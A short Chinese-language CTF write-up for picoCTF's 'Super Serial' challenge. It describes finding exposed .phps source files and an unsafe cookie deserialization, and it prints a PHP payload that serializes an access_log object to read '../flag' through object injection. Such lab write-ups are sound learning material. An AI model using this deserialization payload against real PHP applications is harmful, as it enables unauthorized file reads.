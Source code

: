 +++
title = "pioCTF - Super Serial"
template = "page.html"
date = 2022-01-18T03:11:27+08:00
[taxonomies]
tags = ["ctf"]
[extra]
summary = "130 points"
+++

先檢查 robots.txt 發現有 `Disallow: /admin.phps`
接下來就檢查 `/index.phps` ，可以看到 Source Code，接下檢查發現他引用了兩隻 php
`authentication.php` `cookie.php`

一樣先檢查他們的 Source code，會發現有一隻從 Cookie 可以反序列化的函式

以下是 playload，將得到的 Token 塞進 Cookie 就拿到 Flag。

```php
<?php
class access_log {
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}
$perm = new access_log("../flag");
echo base64_encode(serialize($perm));
?>
```